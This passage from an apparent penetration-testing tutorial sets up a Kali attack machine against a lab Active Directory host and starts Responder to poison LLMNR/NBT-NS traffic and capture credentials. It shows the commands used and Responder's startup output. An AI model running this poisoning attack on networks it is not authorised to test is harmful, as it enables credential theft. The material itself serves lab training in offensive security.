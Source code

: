 This will create a `Windows` machine with `Active Directory` installed
and configured. At this point, everything we need has been completed and
is ready for us to launch an attack.

Now we can set up our attacking machine. Here we are using [Kali
Linux](https://www.kali.org/) with `Vagrant` too, but you can use
whatever `OS` you prefer.

These are the tools that we are going to use:

- [smbmap](https://github.com/ShawnDEvans/smbmap)

- [Responder](https://github.com/SpiderLabs/Responder)

- [SecLists](https://github.com/danielmiessler/SecLists)

- [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper)

If you are using `Kali`, the only thing that needs to be cloned is
`Responder`.

**cloning Responder.**

``` bash
git clone https://github.com/SpiderLabs/Responder
```

We are ready to go.

## Starting the poisoner

The only thing we need to do is to run `Responder` as a root. We can do
this with the following:

**running Responder.**

``` bash
Responder$ sudo ./Responder.py -I eth1 -wrf
```

**Responder.**

``` bash
NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
```